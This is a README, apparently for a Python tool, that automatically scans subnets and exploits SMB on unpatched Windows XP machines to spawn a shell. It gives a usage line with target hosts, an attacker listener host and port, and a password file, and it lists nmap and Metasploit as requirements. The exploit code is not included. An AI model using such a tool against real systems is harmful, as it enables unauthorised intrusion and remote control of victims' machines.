 conficker
=========

scan and exploit SMB on unpatched Win XP boxes automatically to spawn shell (scans subnets with CIDR notation)

USAGE: <br/>
python conficker.py -H &#60; RHOSTS &#62; -l &#60; LHOST &#62; [-p &#60; LPORT &#62; -F &#60; Password File &#62;]

LPORT and Password File parameters are optional. LPORT defaults to 1337.

CREDITS: <br/>
Violent Python - for providing the skeleton even though they teach bad coding practice, and debugging is necessary

REQUIREMENTS: <br/>
-python2 nmap module <br/>
-nmap <br/>
-metasploit <br/>